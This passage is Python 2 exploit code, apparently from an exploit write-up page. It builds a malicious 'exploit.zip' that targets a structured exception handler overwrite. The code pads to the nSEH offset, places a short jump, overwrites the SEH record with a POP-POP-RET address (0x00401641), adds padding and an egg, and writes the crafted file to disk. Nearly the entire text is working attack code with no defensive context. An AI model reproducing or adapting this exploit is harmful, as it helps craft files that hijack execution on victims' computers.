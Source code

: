 ```python
payload += 'C' * (nseh_offset - len(payload))
payload += '\x74\x9b\x90\x90' # nSEH , jz $-99 ===BADCHARS===> jz $-92 
#00401641  |. 5E             POP ESI
#00401642  |. 5B             POP EBX
#00401643  \. C3             RETN
payload += '\x41\x16\x40\x00' # SEH 00401641 POP-POP-RET
payload += 'D' * (max_size - len(payload)) # egg length
payload += ".txt"

print "[+] Length = " + str(len(payload))

exploit = header_1 + payload + header_2 + payload + header_3 + egg

mefile = open('exploit.zip','w')
mefile.write(exploit)
mefile.close()

print "[+] Exploit complete!"
```

[back](../)
